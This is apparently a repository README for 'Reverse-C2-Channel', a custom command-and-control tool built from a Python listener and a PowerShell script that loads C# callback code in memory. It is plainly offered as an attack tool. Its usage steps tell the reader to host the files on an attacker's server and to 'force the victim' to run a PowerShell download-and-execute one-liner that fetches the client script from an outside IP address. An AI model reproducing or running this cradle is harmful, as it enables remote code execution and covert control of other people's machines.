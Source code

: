 # Reverse-C2-Channel
This repo contains custom C2 channel, built with Powershell + C# + Python

# C2 Parts
listener.py is designed for callback handler and server application.
client.ps1 is powershell script which is loading pure C# callback code. The idea is abusing the powershell's ability to arbitrary load and run C# code directly in memory.

# How to use:
1. Open client.ps1 with any text editor and modify your IP / Port
2. Host both listener.py and client.ps1 to the attacker's box or C2 infrastructure server
3. Force the victim to remotely run and execute the powershell script in memory (for example: powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.126.128/client.ps1')"
